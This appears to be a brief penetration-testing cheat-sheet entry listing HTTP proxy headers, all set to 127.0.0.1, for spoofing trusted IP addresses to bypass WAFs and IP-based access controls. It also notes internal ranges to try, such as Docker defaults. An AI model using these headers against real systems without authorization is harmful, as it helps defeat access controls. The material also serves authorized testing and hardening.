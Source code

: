 #### 1.1. About

Proxy headers to bypass WAFs:
```
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Requested-With: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
```

#### 1.2. Concept

- allows spoofing of trusted IP addresses
- end-point/server/API/WAF might allow "pass-through" access
- requires some research about internal IP addresses
  - Docker default: `172.17.0.1-254`
  - company guest/corporate network (external/internal IP)

